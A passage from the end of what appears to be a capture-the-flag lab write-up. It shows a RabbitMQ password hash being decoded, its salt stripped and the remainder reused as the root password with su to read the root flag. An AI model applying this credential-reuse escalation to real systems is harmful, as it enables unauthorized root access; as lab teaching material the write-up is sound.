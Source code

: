 ![Rabbitmq Hash](5.webp){: width="800" height="400"}

To retrieve the hash, we first convert the **base64** hash to **hex**:

```console
$ echo -n '49e6[REDACTED]BzWF' | base64 -d | xxd -p -c 100
e3d7ba85295d1d16[REDACTED]98073585
```

Next, removing the **4-byte salt** (`e3d7ba85`) from the beginning, we are left with the actual hash: `295d1d16[REDACTED]98073585`.

Testing this as the password for the `root` user, we successfully gain a shell as `root` and can read the root flag at `/root/root.txt`:

```console
azrael@forge:~$ su - root
Password: 295d1d16[REDACTED]98073585
root@forge:~# wc -c /root/root.txt
33 /root/root.txt
```
![Rabbitmq Hash](6.webp){: width="800" height="400"}
<style>
.center img {
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>
